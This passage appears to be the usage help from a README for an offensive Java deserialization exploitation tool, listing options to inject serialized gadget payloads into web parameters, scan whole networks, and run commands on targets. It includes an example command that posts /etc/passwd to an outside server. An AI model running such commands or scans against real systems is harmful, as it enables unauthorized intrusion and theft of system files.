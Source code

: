 ```
                        exploiting Java Deserialization Vulnerabilities in
                        application layer (for now, working only against *nix
                        systems)(eg. 192.168.0.10:1331)
  --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                        @/etc/passwd http://your_server)
  --windows, -w         Specifies that the commands are for rWINDOWS System$
                        (cmd.exe)
  --post-parameter PARAMETER, -H PARAMETER
                        Specify the parameter to find and inject serialized
                        objects into it. (egs. -H javax.faces.ViewState or -H
                        oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                        javax.faces.ViewState)
  --show-payload, -t    Print the generated payload.
  --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                        Specify the type of Gadget to generate the payload
                        automatically. (DEFAULT: commons-collections3.1 or
                        groovy1 for JenKins)
  --load-gadget FILENAME
                        Provide your own gadget from file (a java serialized
                        object in RAW mode)
  --force, -F           Force send java serialized gadgets to URL informed in
                        -u parameter. This will send the payload in multiple
                        formats (eg. RAW, GZIPED and BASE64) and with
                        different Content-Types.

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```


Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com

